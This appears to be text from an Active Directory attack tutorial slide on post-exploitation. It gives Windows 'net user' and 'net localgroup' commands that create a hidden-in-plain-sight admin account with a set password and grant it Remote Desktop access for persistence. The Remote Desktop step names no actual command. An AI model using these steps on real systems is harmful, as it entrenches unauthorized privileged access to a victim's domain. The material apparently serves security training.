

Post Exploitation
After successfully carrying out the attack we will get a privileged account ‘nt authority\system’ shell which we can use to create a privileged backdoor account to get persistent access to the AD.
Create a new user:
Command used:- net user backupusr Adminp0w3r /add
Add the newly created user to the Administrator group:
Command used:- net localgroup Administrators backupusr /add
Add the newly created user to the Remote Desktop Users group:
Command used:- to add the user to the Remote Desktop Users
Enable Remote Desktop on the AD if it is not already enabled